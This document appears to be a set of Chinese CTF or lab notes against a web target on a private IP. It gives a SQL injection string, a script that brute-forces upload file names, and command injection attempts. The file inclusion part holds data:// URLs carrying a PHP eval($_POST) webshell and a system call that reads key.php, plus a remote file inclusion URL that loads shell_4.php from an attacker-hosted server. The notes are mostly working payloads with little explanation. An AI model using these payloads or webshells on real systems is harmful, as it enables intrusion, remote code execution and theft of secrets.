

### SQL注入

```sql
admin"and 1=1 #
1
```


****

### 文件上传突破


```py
import hashlib

# 文件全名
file_name = "sss.jpg"

# 存储所有生成的文件名
file_names = []

# 生成所有可能的文件名
for rand_num in range(1, 1001):
    # 生成 md5 哈希
    hash_input = f"{file_name}{rand_num}".encode()
    hash_object = hashlib.md5(hash_input)
    md5_hash = hash_object.hexdigest()

    # 生成文件名
    file_name_generated = f"{md5_hash}.jpg"
    file_names.append(file_name_generated)

# 打印所有生成的文件名
for name in file_names:
    print(name)

```



- 拿去爆破


****

### 远程命令执行


- 但是发现很多命令用不了

```
127.0.0.1 && dir >> 3.txt //可以写
127.0.0.1||whaomi	//非法
127.0.0.1&&whaomi	//能ping无回显
127.0.0.1|whoami	//非法
127.0.0.1&whoami	//非法
127.0.0.1 && ls >> 4.txt	//没写入
;127.0.0.1	//非法
```

- 

- 检查源码


****

### XSS

- 没弹出什么有价值的


### 文件包含

- 伪协议:

```php
http://192.168.100.60:83/start/index.php?page=data:text/plain,%3C?php%20@eval($_POST[1]);?%3E //直接连
或者
http://192.168.100.60:83/start/index.php?page=data:text/plain,%3C?php%20system(%27cat%20/var/www/html/key.php%27);?%3E //查看源码
```


- 开一个9000端口


- 远程文件包含,使用%23截断txt

  http://192.168.100.60:83/start/index.php?page=http://192.168.71.6:9000/shell_4.php%23


